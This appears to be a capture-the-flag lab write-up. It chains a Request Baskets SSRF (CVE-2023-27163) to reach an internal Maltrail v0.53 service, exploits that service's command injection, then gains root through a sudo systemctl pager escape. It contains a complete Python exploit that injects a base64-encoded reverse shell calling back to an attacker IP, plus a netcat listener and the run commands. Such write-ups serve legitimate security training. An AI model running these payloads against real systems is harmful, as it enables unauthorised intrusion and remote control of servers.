 #request-basket #Maltrail #weak-permissions #SSRF

### Enumeration

**Start with nmap scan**
```shell
# Nmap 7.94SVN scan initiated Wed Dec 27 21:20:08 2023 as: nmap -sC -sV -oA initial_scan 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 28 Dec 2023 02:20:43 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 28 Dec 2023 02:20:17 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 28 Dec 2023 02:20:17 GMT
|_    Content-Length: 0
```

As seen from the scan results, port 80 filtered. Though we can still try to access port 55555 where a website appears to be hosted.

![request-basket](https://i.imgur.com/mlgSQRp.png)

it is a typical request bin, where it creates a new baskets and gives you a token which you can use to access the basket later.

### Vulnerability Analysis
With a quick Google search for “Request Basket exploits”, we can find this [PoC for CVE-2023–27163](https://github.com/entr0pie/CVE-2023-27163) which exploits a SSRF vulnerability in Request Basket.

### Exploitation
First, create a request basket and adjust its settings as following
![configuration-settings](https://i.imgur.com/o2mYbcv.png)

1. `insecure_tls` set to `true` will bypass certificate verification
2. `proxy_response` set to `true` will send response of the forwarded server back to our client
3. `expand_path` set to `true` makes `forward_url` path `expanded` when original `http` `request` contains `compound` path.

check  Port `80` by visiting  bucket `url` .

It looks like some other application called as `Maltrail` is running on port 80. We also know that its version `v0.53` is running on the server.

![Maltrail Service](https://i.imgur.com/5rkEDdK.png))


Our next vulnerability is that of `RCE (Remote Code Execution)` which is present in the version `0.53` of `Maltrail` service.

**Weaponized Exploit for Maltrail v0.53 Unauthenticated OS Command Injection (RCE)**
```python
'''
  ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███  
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒
  ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄  
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░ 
      ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░     
'''

import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

setup netcat
```shell
nc -nlvp 1234
```

run the exploit
```python
python3 exploit.py 10.10.14.8 1234  http://10.10.11.224:55555/m6r2a0h
```

Now, we know the service running on Port `80` is `Mailtrail` of version `0.53` .

![foothold](https://i.imgur.com/HpQWF0U.png)


### Privilege Escalation

**checking for permissions**
```shell
sudo -l
```

![permissions](https://i.imgur.com/hmQeFQd.png)

use `sudo` on `systemctl` to obtained the privilege escalation exploit to break out of the environment and gain root access. 

```shell
sudo /usr/bin/systemctl status trail.service
```
the type `!sh`

![root](https://i.imgur.com/lmuLBLg.png)
